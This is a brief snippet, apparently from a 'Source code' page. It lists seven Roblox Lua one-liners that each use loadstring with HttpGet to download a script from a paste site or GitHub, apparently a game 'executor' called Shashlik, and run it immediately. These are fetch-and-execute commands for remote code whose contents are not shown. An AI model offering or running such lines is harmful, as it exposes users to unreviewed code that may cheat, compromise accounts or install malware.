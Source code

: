 

loadstring(game:HttpGet("https://pastebin.com/raw/gth2hydY"))()

loadstring(game:HttpGet("https://raw.githubusercontent.com/sovetskii-shashlik/Shashlik-executor-1.1/refs/heads/main/Шашлык%20машлык.txt"))()

loadstring(game:HttpGet("https://glot.io/snippets/h3n1t3tj5i/raw/main.lua"))()

loadstring(game:HttpGet("https://paste.myst.rs/raw/y1gh2ys9/qtopv7u9"))()

loadstring(game:HttpGet("https://pastes.io/raw/shashlik-8"))()

loadstring(game:HttpGet("https://gist.github.com/sovetskii-shashlik/538822fcd5a171e726800a573627543e/raw/3ea2b888609345258ddc872dca3f531b8b823033/Shashlik-executor-1.1.lua"))()

loadstring(game:HttpGet("https://pastefy.app/IFiN7JKl/raw"))()
